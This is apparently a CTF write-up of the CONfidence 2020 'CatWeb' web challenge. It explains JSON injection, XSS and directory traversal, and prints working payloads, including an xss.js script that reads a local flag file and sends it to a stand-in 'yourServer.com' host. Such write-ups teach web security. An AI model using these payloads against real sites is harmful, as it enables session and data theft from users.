 ```yaml
---
title: "CONfidence 2020: CatWeb"
date: 2020-04-22T00:46:19-06:00
draft: false
author: "Jamvie"
feature_image: https://images.pexels.com/photos/1643456/pexels-photo-1643456.jpeg?auto=compress&cs=tinysrgb&dpr=2&h=650&w=940
---
```


I participated in CONfidence CTF 2020 teasers in March of this year. I was focusing mainly on this problem, and it really helped me broaden my skills in JSON-related attacks! I have never seen many JSON injections before this, so this was welcome practise. 
<!--more-->

Let's Begin!
----
The link to the webpage is: ```http://catweb.zajebistyc.tf/```

We have a basic webpage with photos of cute cats filtered by their color. The drop down menu will give us black, red, grey and white cats. At the bottom is a report button, which will take whatever input we get, send it to some server, and respond to us that our report has been...well. Reported. 

![HomePage](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CatWeb_HomePage.png)


Checking out the response content as I was clicking about the page showed me the requests for the "kind" (colour) of cats I chose based on the drop down menu. The request was just a small JSON string stipulating what kind I asked for, and I guess the server takes that input and returns whatever. 

```
curl "http://catweb.zajebistyc.tf/cats?kind=grey"
```

That got me thinking, can I ask for cats of a kind not in the drop down menu? 
Editing the request to change the kind from a colour to just absolute garbage...

```
curl "http://catweb.zajebistyc.tf/?kind=djfa"
```
![brokenrequest](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/NotFound.png)

Aha! Our text got echoed back to us in the response. There isn't any input validation in the JSON request! This must be a way in. 

To test how far I could go with it, I decided to hide an XSS in the JSON, seeing as how the URL we are taken to after any sort of response also has the JSON text in it. 

I typed this in as the URL:

```
http://catweb.zajebistyc.tf/?","status":"ok","content":["\"<img src=deadbeef onerror=alert(document.title)> </img>],"ignore":"
```

If there was a JSON vulnerability here, then going to this website would load up an alert with the title of the webpage ("my cats"). What would happen is it would attempt to load an image from the source called "deadbeef", and when it can't find the source, it would load as an error. If the image loaded as an error, pop up an alert with the name of the webpage. 

![XSS](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/XSSJsonInCatWeb.png)


:) Great! There is definitely JSON injection in play here. Let's see what we can do with it! 

Using curl to delve deeper into the webpage, I tried to make it list directories with the command: 

```
curl "http://catweb.zajebistyc.tf/cats?kind=.."
```

![templates](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CatWebTemplates.png)

I traversed through the directories, but in the templates subfolder...

![flagLocn](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CatWebFlagLocn.png)

Aha! The ```flag.txt``` file is in there. Now we just need to somehow read it from the browser. The fact that I was able to find the local files like this means something: the path of templates looks alot like ```file:///app/templates/flag.txt``` - Note the root path name: file. A same-origin policy here could treat all files with this starting origin as from the same place. 


We can use this to our advantage: create an XSS attack on the ```file://``` path.

Since an XSS endpoint was found using the JSON vulnerabilities in the URL, and there exists a report function, this is all a pretty classic XSS attack from here:

Craft our payload script to fetch the flag.txt from ```file://```. Here's mine called (xss.js):

```javascript
url='http://yourServer.com/6060?'
fetch('file:///app/templates/flag.txt').then(resp=>resp.text()).then(flag=>fetch(url+(btoa(flag) || 'Nothing')));
```


Report this url with our payload in it:

```
file:///app/templates/index.html?", "status": "ok", "content":["\u0022><script src=http://yourServer.com:6060/xss.js></script>"],"ignore":"
```

Now we wait for our server to retrieve the flag for us once someone checks out our reported URL :)

```flag:p4{can_i_haz_a_piece_of_flag_pliz?}```


This was a cool challenge to do that really helped me stretch my XSS skills and teach me how to be thorough when scoping out webpages for possible XSS attacks. I quite enjoyed this challenge! Thank you to [P4](https://p4.team/) for hosting the CONfidence 2020 teaser :) 


Jam 


References
----
feature image credit: [Peng Louis](https://www.pexels.com/@peng-louis-587527) on Pexels